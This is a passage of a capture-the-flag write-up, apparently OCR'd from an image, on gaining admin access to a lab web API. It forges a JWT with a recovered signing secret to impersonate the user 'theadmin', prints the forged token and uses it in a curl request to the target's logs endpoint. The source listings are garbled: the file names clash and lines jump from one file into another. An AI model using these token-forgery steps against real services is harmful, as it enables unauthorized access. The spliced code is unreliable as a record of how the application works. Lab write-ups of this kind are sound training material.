 ```bash
    "desc": "admin"
  }
}
```
So we can successfully forge and sign our jwt tokens. Now we just need to find an existing user with privileges. To do so, we will read the source code:
```js
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: index.js
       │ Size: 885 B
───────┼───────────────────────────────────────────────────────────────────────────
  17   │ const authRoute = require('./routes/auth');  
```
If we dig into the `/routes` folder, we can find the `private.js` file:
```js
❯ cat verifytoken.js
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: verifytoken.js
       │ Size: 390 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ const jwt = require("jsonwebtoken");
   2   │ 
   3   │ module.exports = function (req, res, next) {
   4   │     const token = req.header("auth-token");
   5   │     if (!token) return res.status(401).send("Access Denied");
   6   │ 
   7   │     try {
   8   │         const verified = jwt.verify(token, process.env.TOKEN_SECRET);
   9   │         req.user = verified;
  10   │         next();
  12   │     if (name == 'theadmin'){
  13   │         res.json({
  14   │             creds:{
  15   │                 role:"admin", 
  16   │                 username:"theadmin",
  17   │                 desc : "welcome back admin,"
  18   │             }
  19   │         })
  20   │     }
  21   │     else{
  22   │         res.json({
  23   │             role: {
  24   │                 role: "you are normal user",
  25   │                 desc: userinfo.name.name
  26   │             }
  27   │         })
  28   │     }
  29   │ })
```
We discovered that `theadmin` user is the user authorized to look the files:
```bash
>>> cookie["name"]="theadmin"
>>> jwt.encode(cookie,secret, "HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw'
```
With this token, we manage to read these routes in the api:
```bash
❯ curl -X GET "http://10.10.11.120/api/logs" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
{
  "killed": false,
```